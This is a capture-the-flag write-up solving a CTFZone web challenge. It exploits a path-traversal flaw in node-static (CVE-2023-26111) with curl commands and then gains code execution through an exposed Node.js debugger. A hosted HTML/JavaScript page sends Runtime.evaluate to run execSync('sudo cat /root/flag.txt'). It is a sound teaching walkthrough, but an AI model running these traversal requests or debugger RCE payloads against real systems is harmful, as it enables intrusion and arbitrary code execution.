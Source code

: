 # Under construction
> We started the development of a new task but havent completed it yet.

> The debug version works on the site. We believe there is no way to get the flag now, but you can try!

## About the Challenge
We were given a source (You can download the source code [here](source.zip)) and also the website. Here is the preview of the website

![preview](images/preview.png)

There is a countdown and there is also another endpoint where we can input a URL and then The website will then navigate to the URL we have inputted

![preview](images/preview_2.png)

## How to Solve?
Now let's check the source code

![source_code](images/source_code.png)

There is a folder called `app`, and 2 js file: `app.js` and `worker.js`. Let's see the `package.json` first to see if there is an outdated dependencies

```json
{
  "dependencies": {
    "node-static": "0.7.11",
    "puppeteer": "20.7.3",
    "react-cyber-elements": "^1.0.2"
  }
}
```

Hmm, what is `node-static` package? lets see if this version is vulnerable or not using `security.snyk.io`

![snyk](images/snyk.png)

And voilà, we know this package was vulnerable to `CVE-2023-26111` (You can check this [gist.github.com](https://gist.github.com/lirantal/c80b28e7bee148dc287339cb483e42bc) to read the details). Let's check the source code again

```node
const hostname = '0.0.0.0';
const port = 3000;
var file = new static.Server('./app');
```

This program creates a node-static server to serve the `./app` folder. As a result, we can access folders or files that begin with the word `app` such as `../app.txt` or ``../app/index.html``. For example, due to the presence of a file named app.js in the server, we can send a request like the following using curl.

```bash
curl "http://web-under-construction-ins1.ctfz.one/../app.js" --path-as-is -v
```

![cve](images/cve.png)

It will show us the source code of `app.js`. Not let's check the `Dockerfile`.

```bash
CMD ["bash","-c","node --inspect app.js  1>app-logs.out 2>app-logs.err"]
```

As you can see, the program ran using `--inspect` switch and the output will be put in a file called `app-logs.out` and if there is an error it will be put in a file called `app-logs.err`. In this case we can see the output of these 2 files by using this curl command

```bash
curl "http://web-under-construction-ins1.ctfz.one/../app-logs.out" --path-as-is -v
curl "http://web-under-construction-ins1.ctfz.one/../app-logs.err" --path-as-is -v
```

![app-out](images/app-out.png)

![app-err](images/app-err.png)

And then what? let's check `Dockerfile` again. The flag was located in `/root/flag.txt`

```
RUN echo "ctfzone{REDACTED}" > /root/flag.txt
RUN echo "ubuntu ALL = (root) NOPASSWD: /bin/cat /root/flag.txt" >> /etc/sudoers
```

So, we need to do Remote Code Execution and then run `sudo /bin/cat /root/flag.txt` to obtain the flag. And to do RCE, as I said before, the program ran using `--inspect` switch. And because of we know the URL of the debugger we can do RCE (You can read this [post](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) about RCE in Node.js Debugger).

And in the end, we create a HTML code to read the flag and then put the flag to `app-logs.out` file

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        let ws = new WebSocket("ws://127.0.0.1:9229/bff792d1-3b2c-4d2a-812a-d95a7f158f2c");
        ws.onmessage = function(data){new Image().src = '/message?' + data.data;}
        ws.onerror = function(data){new Image().src = '/error?' + data;}
        ws.onopen = () => {
            ws.send(
              JSON.stringify({
                id: 1,
                method: "Runtime.evaluate",
                params: {
                  expression:
                    'require(\'child_process\').execSync(\'sudo /bin/cat /root/flag.txt >> /home/ubuntu/app-logs.out\')',
                },
              })
            );
        };
    </script>
</body>
</html>
```

Host this HTML code somewhere, for example use VPS to host the code. And then put our website into `/browser` endpoint in the website. Wait for a while and you can obtain the flag

```
ctfzone{d3bug_m0d3_1s_c00l_f0r_CTF}
```